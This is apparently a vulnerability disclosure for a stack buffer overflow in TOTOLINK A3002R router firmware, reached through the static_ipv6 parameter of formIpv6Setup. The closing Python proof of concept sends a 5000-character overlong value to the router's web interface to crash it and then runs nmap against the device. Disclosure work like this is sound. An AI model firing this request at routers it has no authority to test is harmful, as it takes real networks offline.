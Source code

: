 # TARGET
TOTOlink A3002R
V1.1.1-B20200824.0128
# BUG TYPE
buffer overflow
# Abstract
The TOTOlink A3002R router device contains a buffer overflow vulnerability in its firmware version V1.1.1-B20200824.0128. The vulnerability arises from the improper input validation of the `static_ipv6` parameter in the `formIpv6Setup` interface of `/bin/boa`. A remote attacker could exploit this flaw to execute arbitrary code on the system or cause a denial of service.
# Details
`/squashfs-root/bin/boa`
![fig1](https://github.com/SunnyYANGyaya/firmcrosser/blob/main/ToTolink/figures/Snipaste_2025-01-16_20-55-45.png)

By analyzing the `formIpv6Setup` function in `/bin/boa` using IDA, we find that the entry address of the function is `0x27BDFD68`. It is evident that the `v35` variable is passed to `v49` via `strcpy` without any filtering or length checks. Through further analysis, it is clear that the controllable `static_ipv6` parameter can lead to a buffer overflow vulnerability. The function `sub_410510` reads the user-provided "static_ipv6" data, and `strcpy` copies the string pointed to by `v35` to `v49` without verifying whether `v49` has enough space to store the copied string. If the string pointed to by `v35` exceeds the size of the `v49` buffer, it can cause a buffer overflow, potentially overwriting adjacent memory regions and leading to undefined behavior. This may result in program crashes or, if exploited by an attacker, further compromise the system.


An attacker can exploit the buffer overflow vulnerability by sending an API request, using a malicious configuration file, or crafting a specially crafted HTTP request with an excessively long `static_ipv6` string, potentially causing the program to crash.

![fig2](https://github.com/SunnyYANGyaya/firmcrosser/blob/main/ToTolink/figures/Snipaste_2025-01-16_20-59-21.png)
# POC

```
import requests
import os 
url = "http://192.168.0.1/boafrm/formIpv6Setup"
headers = {
	"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0",
	"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
	"Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
	"Accept-Encoding": "gzip, deflate",
	"Content-Type": "application/x-www-form-urlencoded",
	"Content-Length": "1981",
	"Origin": "http://192.168.0.1",
	"Connection": "close",
	"Referer": "http://192.168.0.1/parent.htm",
	"Upgrade-Insecure-Requests": "1",
	"Priority": "u=4",
}

repeated = "A"*5000
data = "wan_enable=1&OriginType=1&enable_dhcpv6RapidCommit=1&static_ipv6={}".format (repeated)

response = requests.post (url, data=data, headers=headers,verify=False)
#print(response.text)
print ("nmap... ...")
os.system ("nmap 192.168.0.1")
```

